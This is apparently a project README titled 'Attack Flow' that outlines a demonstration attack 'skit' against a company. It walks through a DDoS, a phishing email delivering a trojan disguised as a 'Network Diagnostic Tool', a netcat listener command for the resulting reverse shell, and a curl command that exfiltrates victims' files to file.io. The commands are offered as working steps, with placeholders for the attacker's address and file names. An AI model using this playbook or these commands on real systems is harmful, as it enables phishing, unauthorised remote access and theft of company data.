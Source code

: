 # Attack Flow

1. DDoS to a company’s computer to cause slow network traffic
2. Send a phishing email with the ‘Network Diagnostic Tool’ to offer a solution to the slow traffics
3. Gain access to the computer and navigate through the computer’s directories
    - On attacker's computer (Linux with netcat installed), run the following
    ```bash
    sudo nc -lnvp PORT_NUMBER -s ATTACKERS_IP_ADDRESS
    ```
    - Victim runs the 'Diagnostic Tool' executable file ([code](../Attack/victim.py))
    - Boom! Access granted!
4. Upload whatever files we want to file.io
    - Run the following curl script and take note of the key it returns
    ```bash
    curl -X 'POST' \
        'https://file.io/' \
        -H 'accept: application/json' \
        -H 'Content-Type: multipart/form-data' \
        -F 'file=@FILE_NAME_GOES_HERE' \
        -F 'expires=DATETIME_IN_ISO8601_FORMAT' \
        -F 'maxDownloads=1' \
        -F 'autoDelete=true'
    ```
    - Download all the files after the attack
5. Find another company as our target to attack
6. Perform the same attack again, turns out this company has very good security in place
7. End of our skit
